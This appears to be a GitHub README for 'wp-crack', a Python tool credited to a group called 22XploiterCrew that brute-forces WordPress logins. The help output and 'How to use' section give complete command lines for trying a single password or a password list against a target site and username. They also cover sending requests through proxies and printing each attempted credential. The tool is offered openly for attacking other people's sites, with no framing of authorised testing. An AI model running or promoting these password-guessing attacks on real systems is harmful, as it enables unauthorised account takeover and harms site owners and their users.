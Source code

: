 <h1 align="center">WordPress<br/>Super Fast Login</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.9.0-brightgreen">
  <img src="https://img.shields.io/badge/Languange-English-yellowgreen">
  <img src="https://img.shields.io/badge/License-CC-red">
</p>

> Update from version 1.1 to version 1.2

```
WordPress Brute Force Fast Login
Author : RandsX@22XploiterCrew
E-Mail : dev@22xploitercrew.my.id

usage: python3 wp-crack.py url username [-p|-P] [-x PROXY] [-v VERBOSE]

positional arguments:
  url               url the target
  username          username target

optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and exit
  -v, --verbose     verbose mode/show username and password
                    combination for each attempt
  -p , --password   use one word password
  -P , --passlist   use a few words password
  -x , --proxy      use a socks/proxy for request (ex:
                    127.0.0.1:8080)

Please check your target first so that the login process runs
smoothly
```

## What's new in version 1.3?
- Detect captcha ***the system will automatically stop if the target brings up a captcha***
- Displays the duration of time when successful login

### updates in previous versions
- Fixed bugs
- Added a proxy feature for requests
- Using the new module ```requests``` and ```colorama```
- Easy to use
- Multiprocessing

## How to use
The super fast login feature is only available if you guess (brute force) the target using a wordlist password.
- Single password
```bash
without proxy
python3 wp-crack https://site.com username -p password

with proxy
python3 wp-crack https://site.com username -p password -x http://127.0.0.1:8000
```

- List/multi passwords
```bash
without proxy
python3 wp-crack https://site.com username -P password.txt

with proxy
python3 wp-crack https://site.com username -P password.txt -x http://127.0.0.1:8000
```

if you wish to display the password and username that was attempted to sign in into the target, use option ```-v/--verbose```

## Attention
If you find an error, please report here using menu ```Issues``` or can contribute directly with us
